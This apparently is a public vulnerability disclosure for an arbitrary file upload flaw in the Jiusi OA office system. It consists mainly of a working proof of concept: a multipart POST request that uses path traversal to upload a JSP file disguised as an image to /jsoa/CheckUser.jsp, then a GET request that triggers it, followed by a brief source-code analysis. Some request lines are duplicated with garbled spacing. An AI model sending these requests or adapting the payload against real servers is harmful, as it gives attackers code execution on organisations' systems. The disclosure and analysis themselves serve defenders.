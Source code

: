 # Jiusi OA has an arbitrary file upload vulnerability

##### Vulnerability reproduction:

```
POST /jsoa/OfficeServer?isAjaxDownloadTemplate=false HTTP/1.1

Host:

User-Agent: Mozilla/5.0 (Windows NT 10.0; Win64; x64) AppleWebKit/537.36 (KHTML, like Gecko) Chrome/120.0.0.0 Safari/537.36

Accept: text/html,application/xhtml+xml,application/xml;q=0.9,image/avif,image/webp,image/apng,*/*;q=0.8,application/signed-exchange;v=b3;q=0.7
Accept: text/html,application/xhtml+xml,application/xml;q=0.9,image/avif,image/webp,image/apng,*/*; q=0.8,application/signed-exchange; v=b3; q=0.7

Accept-Encoding: gzip, deflate

Content-Type: multipart/form-data; boundary=---------------------------WebKitFormBoundaryPwieJwmMYPkcCnF1

Content-Length: 1692

-----------------------------WebKitFormBoundaryPwieJwmMYPkcCnF1

Content-Disposition: form-data; name="FileData"; filename="1.jpg"

Content-Type: image/jpeg

<% out.println("loc");new java.io.File(application.getRealPath(request.getServletPath())).delete();%>

-----------------------------WebKitFormBoundaryPwieJwmMYPkcCnF1

Content-Disposition: form-data; name="test"

{"OPTION":"SAVEFILE","isDoc":"false","moduleType":"govdocument","RECORDID":"../../CheckUser","FILETYPE":".jsp"}
{"OPTION":"SAVEFILE","isDoc":"false","moduleType":"govdocument","RECORDID":".. /.. /CheckUser","FILETYPE":".jsp"}

-----------------------------WebKitFormBoundaryPwieJwmMYPkcCnF1--
```

![1760594938912](1760594938912.png)

Access the uploaded file

```

GET /jsoa/CheckUser.jsp HTTP/1.1

Host:

User-Agent: Mozilla/5.0 (Windows NT 10.0; Win64; x64) AppleWebKit/537.36 (KHTML, like Gecko) Chrome/120.0.0.0 Safari/537.36

Accept: text/html,application/xhtml+xml,application/xml;q=0.9,image/avif,image/webp,image/apng,*/*;q=0.8,application/signed-exchange;v=b3;q=0.7
Accept: text/html,application/xhtml+xml,application/xml;q=0.9,image/avif,image/webp,image/apng,*/*; q=0.8,application/signed-exchange; v=b3; q=0.7

Accept-Encoding: gzip, deflate
```

![1760595100481](1760595100481.png)

Successfully uploaded and accessed

##### White Box Vulnerability Analysis:

In the servlet of the Office Server, there is a SAVEFILE, and the save2DB method is called in the SAVEFILE option

![1760595160239](1760595160239.png)

When isDoc is equal to fasle, the faveFile method of the Jinger component is called to write the file, and the filetype is controllable, causing arbitrary file upload vulnerabilities

![1760595183727](1760595183727.png)

